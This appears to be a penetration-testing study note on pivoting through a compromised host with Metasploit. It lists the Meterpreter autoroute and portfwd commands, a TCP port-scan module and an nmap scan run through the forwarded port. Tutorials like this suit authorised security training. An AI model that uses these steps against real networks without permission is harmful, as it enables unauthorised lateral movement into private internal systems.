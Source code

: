 # Pivoting via Metasploit

Pivoting is a Post exploitation technique which utilises a compromised host to attack other systems on the private Internal network.<br>
Imagine you have compromised a host in `192.168.10.0/24` subnet and that host is also part of another subnet `10.10.10.1/24`. This really introduces more systems opening large attack surface.

![[pivoting.png]]

#### HOW TO PIVOT TO OTHER SUBNETS:

1. Gain an initial Meterpreter shell
2. Now we can enumerate the IP configuration on that target to check whether it is part of another subnet
3. Now we need to add the route of VICTIM 2. This will add a route in our local machine to the VICTIM 2 via VICTIM 1.

```
run autoroute -s "VICTIM 2 SUBNET"
```

4. We can then perform a Port Scan of the VICTIM 2

```
use auxiliary/scanner/portscan/tcp 
set RHOSTS 10.5.27.67
exploit
```

5. Since we cannot access VICTIM 2 directly we cannot do a detailed `nmap` scan for version detection etc.. 
6. So we need to perform the Port forwarding, which means communications to Port 80 of VICTIM 2 will be forwarded to a local specified port of our choice

```
portfwd add -l 1234 -p 80 "VICTIM 2 IP"
```

7. Now we can do a NMAP scan. VICTIM 2 port 80 is forwarded to the local port in our local machine. So we need to give `localhost`

```
db_nmap -sV -p1234 localhost
```

